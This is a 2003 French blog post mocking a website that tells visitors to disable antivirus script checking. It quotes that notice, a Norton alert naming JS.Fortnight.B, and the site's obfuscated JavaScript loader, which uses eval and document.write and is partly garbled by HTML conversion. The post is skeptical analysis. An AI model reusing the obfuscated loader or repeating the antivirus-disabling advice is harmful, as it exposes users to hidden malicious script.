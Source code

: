 ```yaml
---
title: Elle est bien bonne
id: 52
categories:
  - Humeur
date: 2003-11-27 19:44:06
tags:
---
```


Voici ce qu'on peut lire sur la page d'acceuil de ce [site](http://www.ifrance.com/chlan/).
 > ATTENTION! Si vous disposez d'un anti-virus, il est possible que celui-ci vous dise que les pages de ce site en contiennent, il n'en est rien!!!!
>
>  En effet, les différentes pages contiennent des scripts de copyright, mais certains anti-virus les confondent avec des virus. Pour régler cela, il vous suffit de modifier les paramètres de votre logiciel de protection, en désactivant l'option nécessaire (par exemple "activer la vérification des scripts")

Incroyable n'est-ce pas ?

Et effectivement Norton affiche le message suivant lorsqu'on tente de naviguer sur ce site:
 > Type d'analyse :  Analyse Protection en temps réel
>
>  Evénement :  Virus détecté !
>
>  Nom du virus :JS.Fortnight.B
>
>  Fichier :  C:\Documents and Settings\XXXXX\Local Settings\Temporary Internet Files\Content.IE5\CNDBMYNT\chlan[1](1).htm
>
>  Emplacement :  Quarantaine
>
>  Ordinateur :  XXXXXX
>
>  Utilisateur :  XXXXXX
>
>  Opération :  Nettoyer  - échec : Quarantaine - réussite : Accès refusé
>
>  Date de détection : Thu Nov 27 16:29:26 2003

Quand on examine le code source on trouve un JavaScript assez étrange:
 > &lt;script LANGUAGE="JavaScript"&gt;
>
> dddss="=tdsjqu mbohvbhf&gt;KbwbTdsjqu?=!..gvodujpo ofn(*|sfuvso usvf<a name="&lt;xjoepx/pofssps &gt;G#&lt;wbs u85&lt;em&gt;epdvnfou/mbzfst&lt;eb6#bmm&lt;hf3#hfuFmf.#CzJe&lt;xt&gt;'$tjefcbs{nth&gt;.#c:8&lt;e$qbttxepl(* |u#xsjuf(voftdbqf(%1E%1B)#%4D%3Gcpez%4F0#opgsbnft4#G#iunm6#**&lt;" id="&lt;xjoepx/pofssps &gt;G#&lt;wbs u85&lt;em&gt;epdvnfou/mbzfst&lt;eb6#bmm&lt;hf3#hfuFmf.#CzJe&lt;xt&gt;'$tjefcbs{nth&gt;.#c:8&lt;e$qbttxepl(* |u#xsjuf(voftdbqf(%1E%1B)#%4D%3Gcpez%4F0#opgsbnft4#G#iunm6#**&lt;"> </a>&lt;jg (j$Fwfou*B$dbquvsf;#t(*#/NPVTFVQb#g&amp;pdpoufyunfov(*|fO#dbodfmCvccmf &gt;''&lt;?#;'Wbmv&gt;#gbmt?#Q'2#<a name=",$sjhiudmjdl(f,$(%9#f/xijdi&gt;&gt;3}}/#4* ($fmtfW#^$cvuupo&gt;&gt;3 }} 6# &gt;&gt; 4*  J%&gt;H%mvf&gt;F%  " id=",$sjhiudmjdl(f,$(%9#f/xijdi&gt;&gt;3}}/#4* ($fmtfW#^$cvuupo&gt;&gt;3 }} 6# &gt;&gt; 4*  J%&gt;H%mvf&gt;F%  "> </a><a name="z&amp;poR&amp;&gt;`&amp;&lt; K#npvtfepxo&gt;#&amp;H#&lt;&amp;j(*|jg(eb*G)potfmfdutubsu&gt;O#X+a$" id="z&amp;poR&amp;&gt;`&amp;&lt; K#npvtfepxo&gt;#&amp;H#&lt;&amp;j(*|jg(eb*G)potfmfdutubsu&gt;O#X+a$"> </a>&lt;tfuUjnfpvu(l#-311*&lt;~<a name="&lt;1#R*ot:(*|)+ubuvt &gt; /e#I#-2e#&lt;0#e#pg(j$mpdb;#f+\\$" id="&lt;1#R*ot:(*|)+ubuvt &gt; /e#I#-2e#&lt;0#e#pg(j$mpdb;#f+\\$"> </a>&lt;jg?(A#/qspupdpm/joefyPg(gjmf*!&gt;.2e%c:8!&gt;usvf*|opg(*~<a name="&lt;qbttxepl(*&lt;=0TDSJQU?"; <p>l='\0\t 
>  !"#$%&amp;\'()*+,-./0123456789:;&lt;=&gt;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ</a>[\134](\134)^_`abcdefghijklmnopqrstuvwxyz{|}" id="&lt;qbttxepl(*&lt;=0TDSJQU?";
>
> l='\0\t >  !"#$%&amp;\'()*+,-./0123456789:;&lt;=&gt;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\134](\134)^_`abcdefghijklmnopqrstuvwxyz{|}"> '; eval(unescape("%73%3D%27%27%3B%0D%0A%66%6F%72%20%28%69%3D%30%3B%69%3C%64%64%64%73%73%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%7B%0D%0A%61%3D%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%69%29%29%3B%0D%0A%69%66%20%28%61%3D%3D%31%29%20%61%3D%39%3B%0D%0A%69%66%20%28%61%3D%3D%32%29%20%61%3D%31%30%3B%0D%0A%69%66%20%28%61%3D%3D%33%29%20%61%3D%31%33%3B%0D%0A%69%66%20%28%61%3D%3D%34%29%20%61%3D%33%34%3B%0D%0A%69%66%20%28%61%3C%3D%33%31%20%26%20%61%3E%3D%31%34%29%7B%0D%0A%6F%66%66%3D%73%2E%6C%65%6E%67%74%68%2D%28%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%2B%2B%69%29%29%2D%33%36%2B%39%30%2A%28%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%2B%2B%69%29%29%2D%33%35%29%29%2D%31%3B%0D%0A%6C%70%3D%6F%66%66%2B%61%2D%31%34%2B%34%3B%0D%0A%73%3D%73%2B%73%2E%73%75%62%73%74%72%69%6E%67%28%6F%66%66%2C%6C%70%29%3B%7D%0D%0A%65%6C%73%65%20%7B%20%69%66%20%28%61%3E%3D%34%31%29%20%61%3D%61%2D%31%3B%20%73%3D%73%2B%6C%2E%63%68%61%72%41%74%28%61%29%3B%7D%7D%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%73%29%3B%0D%0A"));
>
> > <p>
> >
> > &lt;/SCRIPT&gt;
> >
> > Pourquoi avoir offusqué celui-ci et pas les autres ? Etrangement c'est justement celui qui fait tiquer l'antivirus…</p>
